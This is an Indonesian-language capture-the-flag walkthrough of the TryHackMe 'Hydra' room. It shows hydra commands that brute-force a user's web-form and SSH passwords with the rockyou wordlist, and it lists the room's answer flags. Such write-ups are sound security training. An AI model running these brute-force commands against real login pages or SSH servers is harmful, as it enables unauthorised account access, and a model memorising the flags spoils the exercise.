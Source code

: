 # Solusi - Hydra
- TryHackMe Room: https://tryhackme.com/room/hydra
- IP Machine: 10.10.93.97

## Task 2 Using Hydra
- Buka url `http://IP_Machine` di browser, setelah dibuka kita langsung diarahkan ke halaman login

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%201.JPG)

- Lakukan brute force untuk menemukan password dari user `molly` dengan tool `hydra` dan wordlists `rockyou.txt` yang terdapat di kali linux. Format perintah digunakan adalah `hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"`
```sh
hydra -l molly -P /usr/share/wordlists/rockyou.txt IP_Machine http-post-form "/login:username=^USER^&password=^PASS^:incorrect
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%202.JPG)

- Gunakan username dan password diatas untuk melakukan login, setelah login kita berhasil mendapatkan flag1

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%203.JPG)

**Pertanyaan:** Use Hydra to bruteforce molly's web password. What is flag 1?

**Jawaban:**
```sh
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

- Lakukan brute force untuk menemukan password SSH dari user `molly` dengan tool `hydra` dan wordlists `rockyou.txt` yang terdapat di kali linux
```sh
hydra -l molly -P /usr/share/wordlists/rockyou.txt IP_Machine ssh
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%204.JPG)

- Gunakan username dan password diatas untuk mengakses SSH, setelah berhasil masuk kita berhasil menemukan file `flag2.txt`. Buka file tersebut menjawab pertanyaan berikutnya
```sh
cat flag2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%205.JPG)

**Pertanyaan:** Use Hydra to bruteforce molly's SSH password. What is flag 2?

**Jawaban:**
```sh
THM{c8eeb0468febbadea859baeb33b2541b}
```